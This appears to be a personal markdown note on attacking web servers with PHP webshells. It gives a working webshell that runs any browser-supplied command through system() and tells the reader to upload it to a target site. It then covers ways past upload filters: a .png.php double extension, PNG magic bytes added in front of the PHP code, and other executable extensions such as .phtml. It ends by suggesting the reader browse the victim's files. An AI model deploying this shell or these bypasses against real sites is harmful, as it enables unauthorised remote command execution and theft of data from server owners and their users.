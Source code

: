 A **PHP webshell** is a payload you upload to a web server to **run system commands remotely** via the browser.

a simple PHP webshell
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

save it as ```webshell.php``` and upload it to the target site.

some websites try to make it harder for us to upload our PHP code (i wonder why)
lucky we have ways to bypass a few of the blocking methods

## png

	alot of website only let you upload images, so we will need to change our
	 script to work around some restrictions.

#### .png.php
	some websites validate the file we upload only by checking if the file name
	contains .png, 
```python
	if(".png" in filename)
```
	easiest way to bypass it is by changing our webshell file name 
	to webshell.png.php

#### png via magic numbers

	some websites validate the file we upload via magic numbers
	magic numbers are a set of hex chars at the start of a file that 
	identify the file type.
	the way to bypass it is just to add the png magic numbers to our webshell
```php
�PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">

<input type="TEXT" name="cmd" autofocus id="cmd" size="80">

<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
## PHP work around

	some websites block file ending with .php - wtf thats toxic
	lucky its not the end of the world, we can try to bypass it too
	there are a few extensions that still can run our php code while 
	not having the .php ## extension.
```
.php  
.php3  
.php4  
.php5  
.phtml
```
	change your file extension to one of them hoping it will work.
	good luck!

## aftermath
	after we got our webshell working we can try to find more info using commands
	to look thru the user's file

- [[ls – List Files in a Directory]] 
- [[locate – Find Files by Name]]
- [[cat – View File Contents 🐈]]